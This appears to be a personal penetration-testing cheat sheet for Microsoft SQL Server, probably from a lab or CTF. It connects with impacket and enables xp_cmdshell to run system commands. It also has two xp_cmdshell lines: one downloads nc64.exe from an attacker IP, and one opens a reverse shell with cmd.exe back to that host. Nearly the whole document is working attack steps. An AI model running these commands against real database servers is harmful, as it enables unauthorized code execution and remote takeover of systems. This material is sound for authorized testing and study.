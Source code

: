 # MSSQL

Microsoft SQL Server (MSSQL) is a relational database management system (RDBMS) developed by Microsoft.

```console
cd /usr/share/doc/python3-impacket/examples
python mssql {DOMAIN}/{USERNAME}@{TARGET_IP} -windows-auth
```

## Commands
```console
# Check if the current user is sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');

# Enable advanced options
EXECUTE sp_configure 'show advanced options', 1;

# Apply the configuration
RECONFIGURE;

# Enable xp_cmdshell
EXECUTE sp_configure 'xp_cmdshell', 1;

# Apply the configuration
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'
```

## POWERSHELL
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.201/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.15.201 443"

## Tips
* Try -windows-auth to use Windows Authentication